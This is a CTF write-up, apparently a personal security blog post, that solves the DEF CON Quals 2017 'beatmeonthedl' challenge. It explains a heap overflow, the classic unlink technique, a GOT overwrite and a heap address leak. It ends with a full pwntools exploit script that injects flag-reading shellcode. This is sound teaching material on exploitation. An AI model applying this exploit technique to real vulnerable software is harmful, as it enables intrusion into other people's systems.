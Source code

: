 ```yaml
---
layout: post
title: "DEF CON Quals 2017: beatmeonthedl"
category: Security
date: 2017-04-30
tags:
  - ctf
  - DEF CON
  - writeup
---
```


I played in the DEF CON quals CTF this weekend, and happened to find the
challenge `beatmeonthedl` particularly interesting, even if it was in the
"Baby's First" category.  (DC Quals Baby's Firsts aren't as easy as one might
think...)

So we download the binary and take a look.  I'm using
[Binary Ninja](https://binary.ninja) lately, it's a great tool from the Vector35
guys, and at the right price compared to IDA for playing CTF.  :)  So I open up
the binary, and notice a few things right away.  This is an x86-64 ELF binary
with essentially none of the standard security features enabled:

~~~
% checksec beatmeonthedl
[+] 'beatmeonthedl'
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
~~~

Easy mode, right?

We'll, let's look at the binary and see if we can find a vulnerability.  Looking
at the binary, we can see it's a pretty typical CTF binary, we can create,
modify, delete, and print some notes.  This has been seen many times in various
forms.

At the beginning there's a little twist, it prompts you for a username
and password.  It's not hard to figure out what these should be, just take a
look at the functions `checkuser` and `checkpass`.  In `checkuser` you can see
that the username should be `mcfly`.  In `checkpass`, it's interesting that the
function copies the user input to an allocated buffer on the heap before
checking the password, and all it checks is that it beings with the string
`awesnap`.  The memory chunk is not freed before continuing, and in fact, if you
fail the login check, you will repeatedly get checks that allow you to continue
writing to segments on the heap.  The copies are correctly bounds-checked, so
there's no memory corruption here.  I'm not sure what the point of copying to
the heap is, as I didn't need it to solve the level.

Let's take a look at the `add_request` function that creates the new request
entries.  Looking through it, we see it allocates a chunk for the request entry
and then reads your request into the allocated chunk.  It took me a moment to
notice that there's something strange about the malloc and the respective read
of the request, but I've highlighted the relevant lines for your ease.

![malloc and read for new requests](/img/blog/dcq-2017/beatmeonthedl_addrequest.png)

Yep, it allocates `0x38` bytes and then reads `0x80` bytes into it.  Well, that
seems opportune, depending on what's past the chunk I'm reading into.  It
doesn't appear that his has any function pointers or vtable pointers (it appears
to be pure C), so nothing like that to overwrite.  Heap metadata corruption is a
thing of the past, right?  Well, if you notice that `malloc` is in blue and
other functions (`printf`, `read`) are in orange, you might realize something.
The malloc implementation being used by this binary is compiled into the
program.  A quick test does, in fact, show that this version of malloc does not
appear to use any validation checks on the heap metadata:

~~~
pwndbg> x/i $rip
=> 0x40656c <free+1096>:	mov    rax,QWORD PTR [rax+0x8]
pwndbg> i r rax
rax            0x41414141425e51a0	0x41414141425e51a0
~~~

So it seems like we can use the `unlink` technique described by [Solar
Designer](http://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability) in
2000 to exploit heap metadata corruption via `free`.  If you're not familiar
with the technique, there's a more digestable version
[here](https://gbmaster.wordpress.com/2014/08/11/x86-exploitation-101-heap-overflows-unlink-me-would-you-please/).
This technique allows you to write one pointer-sized value at one address of
your choosing.  (Obviously, if you want to try to write more than one, you can
sometimes repeat the technique if the circumstances allow.)
Basically, you want to allocate two consecutive blocks, overflow the first into
the second in such a way that the 2nd meets some special properties, and then
free the first chunk, causing the malloc implementation to attempt to coalesce
the two free blocks into a bigger block and `unlink` the old "free" block.  Our
crafted block must:

- Have zero size
- Appear to be free (has the `IN_USE` bit cleared)
- Appear as part of a linked list where the first pointer goes to your target address
  minus one pointer width (e.g., target-8 on x86-64).
- Appear as part of a linked list where the second pointer is the value you want to
  write.

So if we know what we're going to do, we should be done, right?  Well, it's not
quite that simple -- we still need to know what we're going to write, and where
we're going to write it.

A common technique for this is to overwrite a pointer in the Global Offset Table
(GOT).  If you're not familiar with the GOT, I've previously written about
[using the GOT and PLT for
exploitation](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html).
Since there is no RELRO (Read-Only Relocations) on this binary, we can apply
this technique here in a straightforward fashion.  We can overwrite any function
that will be called after the `free` occurs.  For this binary, we can use any of
several functions, but both `puts` and `printf` are excellent choices since
they're called in fairly short order (by printing the menu the next time).

So *what* do we write?  Well, we want to point to some shellcode.  But where is
our shellcode?  Since there's not many places to put things on the stack and no
globals, I guess it'll have to be the heap.  We do have ASLR to contend with, so
we need a leak of a heap address.  It took me a while to realize how we could
get this, but then I hit upon it: by creating fragmentation within the heap, the
malloc implementation will have placed pointers for the circular linked list of
free blocks into the free blocks themselves.  Then overflowing an adjacent block
right up to the pointer, and printing the requests, we can get the value of the
pointer.  From that, we can round down to the start of the page and get the
beginning of the heap area.

Finally, we just need to place some shellcode in one of our blocks.  Note that
many (all?) of the DEF CON Quals challenges ran in a seccomp sandbox that
blocked the ability to use `execve`, so we'll have to use a `open/read/write`
shellcode.

Putting it all together (sorry, it's a bit sloppy, didn't have time to clean it
up yet):

~~~
import pwn
from pwnlib.shellcraft import amd64

pwn.context.binary = './beatmeonthedl'

PAD = 'A'*48 + 'B'*8
CHUNK_SIZE = pwn.p64(0)
TARGET_ADDR = 0x609970 # printf@got
TARGET_ADDR_CHUNK = pwn.p64(TARGET_ADDR-24)

proc = None
#proc = pwn.process('./beatmeonthedl')
proc = proc or pwn.remote(
        'beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me',
        6969)

def login():
    proc.recvuntil('username: ')
    proc.sendline('mcfly')
    proc.recvuntil('Pass: ')
    proc.sendline('awesnap')

def menu(n):
    proc.recvuntil('| ')
    proc.sendline(str(n))

pwn.log.info('Login')
login()

pwn.log.info('Create')
for _ in xrange(4):
    menu(1)
    proc.recv()
    proc.sendline('foo')

pwn.log.info('Leak')
menu(3)
proc.recv()
proc.sendline(str(2))
menu(3)
proc.recv()
proc.sendline(str(0))
# alter 1
menu(4)
proc.recv()
proc.sendline(str(1))
proc.recv()
proc.send('Q'*72)
menu(2)
res = proc.recvuntil('3)')
res = res[72+3:-3]
slot_0 = pwn.u64(res+('\0'*(8-len(res))))
print 'Slot 0 probably: {:#08x}'.format(slot_0)

pwn.log.info('Setup chunk')
# reallocate 0
menu(1)
proc.recv()
proc.send('AAAA')

# shellcode in 3
menu(4)
proc.recv()
proc.send(str(3))
proc.recv()
shellcode = '\xeb\x20' + ('\x90'*32)
shellcode += pwn.asm(amd64.cat('flag'))
proc.send(shellcode)

# edit 0 with overwrite
menu(4)
proc.recv()
proc.send(str(0))
proc.recv()
val = (PAD+CHUNK_SIZE+TARGET_ADDR_CHUNK)
target = slot_0+16 + 3*0x40  # target slot 3
print 'Target addr: {:#08x}'.format(target)
val += pwn.p64(target)
proc.send(val)

pwn.log.info('Overwrite')
# trigger free of previous chunk to cause coalescing
menu(3)
proc.recv()
proc.sendline(str(0))

proc.interactive()

pwn.log.info('Exit')
# exit
menu(5)
~~~
